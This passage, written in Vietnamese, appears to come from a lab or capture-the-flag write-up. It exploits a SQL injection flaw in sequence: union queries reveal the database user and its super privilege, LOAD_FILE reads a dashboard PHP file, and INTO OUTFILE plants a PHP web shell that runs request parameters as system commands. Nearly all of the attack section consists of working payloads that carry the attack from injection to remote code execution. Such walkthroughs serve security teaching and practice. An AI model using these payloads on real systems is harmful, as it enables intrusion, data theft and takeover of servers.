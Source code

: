 Check được người  dùng hiện tại root@localhost

```sql
' UNION SELECT 1, user(), 3, 4, 5-- -
```

![](images/22.png)

Có quyền super_dba

```sql
cn' UNION SELECT 1, super_priv, 3, 4, 5 FROM mysql.user WHERE user="root"-- -
```

Chúng ta tìm kiếm thư mục gốc của webserver, sau đó sẽ ghi file cmd shell rồi thực thi mã từ xa.

```sql
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/dashboard/dashboard.php"), 3, 4, 5-- -
```

![](images/23.png)

Tạo ghi payload vào file shell.php

```sql
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "","" into outfile '/var/www/html/dashboard/shell.php'-- -
```

![](images/24.png)